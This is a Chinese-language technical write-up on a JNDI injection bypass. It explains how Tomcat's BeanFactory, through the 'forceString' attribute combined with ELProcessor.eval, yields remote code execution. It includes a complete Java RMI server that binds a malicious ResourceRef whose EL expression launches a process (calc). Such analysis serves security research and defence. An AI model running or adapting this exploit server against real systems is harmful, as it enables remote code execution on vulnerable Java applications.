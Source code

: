 这个可⽤的 factory 类为 org.apache.naming.BeanFactory ，位于 tomcat 的依赖包中，此 外，这个 factory 绕过需要搭配 javax.el.ELProcessor 来完成 RCE，依赖：

```xml
<dependency>
<groupId>org.apache.tomcat</groupId>
<artifactId>tomcat-catalina</artifactId>
<version>8.5.0</version>
</dependency>
<!-- 加载ELProcessor时需要 -->
<dependency>
<groupId>org.apache.tomcat.embed</groupId>
<artifactId>tomcat-embed-el</artifactId>
<version>8.5.0</version>
</dependency>

```

分析
--

来到`BeanFactory#getObjectInstance`方法中，(太长省略)

这里的代码逻辑比较复杂，简单可以概括为以下几点：

1. `BeanFactory#getObjectInstance` 要求传入Referrnce必须为`ResourceRef`的实例
2. `BeanFactory`通过反射创建了一个bean，这个Bean的类名，属性，属性值都来自于`Reference`，我们可控。
3. 在注入Bean的属性的时候，会调用对应的setter方法。这个setter方法不一定要是`set...`，我们通过`ResourceRef`对象中的`forceString`，可以把任意的`public`方法转换为该属性的`setter`方法。
4. 这个方法的参数类型必须是`String.class`

我们可以利用的方法为`javax.el.ELProceor#eval`方法，可以执行任意EL表达式

```java
package demo03;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        StringRefAddr sr1 = new StringRefAddr("forceString", "X=eval");
        String el = "''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")";
        StringRefAddr sr2 = new StringRefAddr("X", el);
        ref.add(sr1);
        ref.add(sr2);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Calc", referenceWrapper);
    }
}
```
